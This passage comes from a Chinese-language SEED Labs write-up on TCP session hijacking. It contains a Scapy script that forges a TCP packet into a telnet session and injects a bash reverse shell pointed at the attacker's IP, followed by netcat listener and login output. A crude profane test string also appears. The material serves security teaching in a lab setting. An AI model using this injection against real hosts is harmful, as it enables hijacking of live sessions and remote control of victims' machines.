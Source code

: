 ```shell
victim-10.9.0.5$ cat /home/seed/hijacking.out
Fk U bitch!
```

可以看出，程序成功写入了一个文件。

# Task 4: Creating Reverse Shell using TCP Session Hijacking

编写 `reverseshell.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
	data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
	pkt = ip/tcp/data
	send(pkt, verbose=0)
	
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

在 attacker 上开启监听：

```shell
attacker-10.9.0.1$ nc -lnv 9090
Listening on 0.0.0.0 9090
```

telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
22c45e0a11e6 login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 29 10:54:18 UTC 2022 from user1-10.9.0.6.net-10.9.0.0 on pts/3
```
